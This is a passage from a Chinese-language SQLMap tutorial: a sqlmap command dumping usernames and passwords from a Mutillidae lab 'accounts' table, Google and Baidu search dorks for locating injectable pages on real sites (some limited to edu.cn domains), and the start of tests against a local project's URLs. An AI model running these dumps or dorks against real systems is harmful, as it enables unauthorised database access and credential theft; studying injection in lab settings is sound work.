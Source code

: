 ### 4.获得表中的数据
```bash
sqlmap -u “http://192.168.xx.xx/mutillidae/index.php?page=user-info.php&username=test&password=123&user-info-php-submit-button=View+Account+Details” --batch -D database -T accounts -C "username,password" --dump
```

## 综合示例
### 1.通过google搜索可能存在注入的页面
```
inurl:.php?id=
inurl:.jsp?id=
inurl:.asp?id=
inurl:/admin/login.php
inurl:.php?id= intitle:美女
```
### 2.通过百度搜索可能存在注入的页面
```
inurl:news.asp?id= site:edu.cn
inurl:news.php?id= site:edu.cn
inurl:news.aspx?id= site:edu.cn
```

# 三、SQLMap实践

参考链接：简书：作者：虫儿飞ZLEI
链接：https://www.jianshu.com/p/3d3656be3c60



## 3.1 使用本地网站

### 3.1.1 本地网站是本地的项目，现在用本地的项目跑起来来测试sqlmap

主要测试三个url：
 [http://localhost:9099/tjcx/qyzxcx/zscq/sbxx/years?nsrsbh='1234000048500077X3'](https://links.jianshu.com/go?to=http%3A%2F%2Flocalhost%3A9099%2Ftjcx%2Fqyzxcx%2Fzscq%2Fsbxx%2Fyears%3Fnsrsbh%3D'1234000048500077X3')
 [http://localhost:9099/record/user/2019-03-09](https://links.jianshu.com/go?to=http%3A%2F%2Flocalhost%3A9099%2Frecord%2Fuser%2F2019-03-09)
 127.0.0.1:9099/open/qyxx/jcsj_gs?nsrsbh=110101717802684



### 3.1.2 操作--url1

> url1：[http://localhost:9099/tjcx/qyzxcx/zscq/sbxx/years?nsrsbh='1234000048500077X3'](https://links.jianshu.com/go?to=http%3A%2F%2Flocalhost%3A9099%2Ftjcx%2Fqyzxcx%2Fzscq%2Fsbxx%2Fyears%3Fnsrsbh%3D'1234000048500077X3')，这是一个post请求，nsrsbh是所需要的参数


